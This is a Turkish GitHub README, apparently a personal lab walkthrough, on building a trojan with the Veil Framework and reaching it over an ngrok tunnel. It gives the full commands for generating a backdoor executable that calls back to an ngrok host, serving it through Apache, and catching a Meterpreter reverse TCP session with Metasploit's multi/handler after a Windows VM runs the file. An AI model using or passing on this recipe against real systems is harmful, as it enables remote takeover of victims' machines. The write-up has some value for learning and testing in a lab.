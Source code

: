 # Veil-Ngrok-Calistirma
Veil Framework ile Ngrok Çalıştırarak Trojen Oluşturup Çalıştırmak


Veil Framework Yükleme Referansı: https://github.com/Veil-Framework/Veil


- Ngrok.com adresine giderek üye oldum.
- Site üzerinden “Download for Linux” diyerek sanal Kali makinama ngrok’u indirdim
- 2. Kısımda yazan authentication token’ımı kayderek siteden çıkış yapıyorum.
![ngrok site](https://user-images.githubusercontent.com/67163428/191236942-63485be5-51da-4a83-bdb2-b8a87b25e0c2.png)

- Download klasörü içinde indirdiğim Zip dosyası içinden Ngrok’u çıkardım
- Terminal ekranını açarak Download klasörünün içine gidiyorum, ls diyerek dosyaları kontrol ediyorum ve “ngrok” dosyasını görüyorum.
- Kaydetmiş olduğum authentication tokenı ./ngrok yaparak yapıştırıp tokenın dosyaya yazılmasını sağlıyorum.
-./ngrok tcp diyerek tcp 4848 servisini çalıştırıp kullanılmayan bir port ekliyorum.
- Ngrok çalışmaya başladıktan sonra gelen ekran üzerinde tcp://0.tcp.eu.ngrok.io’a ya 11810 portundan gelen verileri benim makinamın 4848 portuna aktaracağını anlıyoruz.
-trojen yaratmak için Veil kullanıyorum.
-veil dosyasının kurulu olduğu yere giderek, Veil.py dosyasını çalıştırmak için “python3 Veil.py” yapıyorum.
- çıkan ekranda 2 araç kullanılabilir olduğunu görüyorum ve 1. Aracı kullanıyorum
- “list” diyerek payload listelerini görüyorum.
- “use 7” diyerek 7. payloadı seçerek devam ediyorum.
-“set LHOST 0.tcp.ngrok.io” yazıyorum. Ngrok üzerinden bize verilen adresi girdim.
-port olarakta “set LPORT 11810” giriyorum
-“generate” diyerek benim için oluşturmasını istiyorum daha sonra bir isim vererek dosyanın nerede oluştuğunu görebiliyorum.
- “/var/lib/veil/output/compiled/veilbackdoor.exe” içerisinde olan dosyamı keserek 
 /var/www/html/backdoors/” klasörünün içine aktarıyorum. (backdoors klasörünü isteğe bağlı oluşturabilirsiniz)



-apache servisimi çalıştırıyorum.
-dinlemeyi yapmak için msfconsole içine giriyorum.
- “ use exploit/multi/handler” 
“ set payload windows/meterpreter/reverse_tcp” komutlarını giriyorum
-“show opitons” içine girerek LHOST VE LPORTA BAKIYORUM.
“set LHOST 0.0.0.0” VE “set LPORT 4848” yazarak düzenleme yapıyorum.
-“exploit -j -z” diyerek dinlemeyi başlatmış oluyorum.




-oluşturduğum sanal windows makinasını çalıştırıyorum.
- tarayıcıyı açarak “10.0.2.15/backdors” adresine giderek veilbackdoor.exe dosyasını indiriyorum
- exe dosyasını açtıktan sonra kali makinamızın terminaline bir sessions düşüyor. 
- “sessions -l” yaparak tüm sessionsları görüyoruz ve bize gerekli olan “sessions -1” diyerek windows makinamızın içine giriyoruz. 
- “sysinfo” yapara makinamızın ele geçirildiğini kanıtlamış oluyoruz.



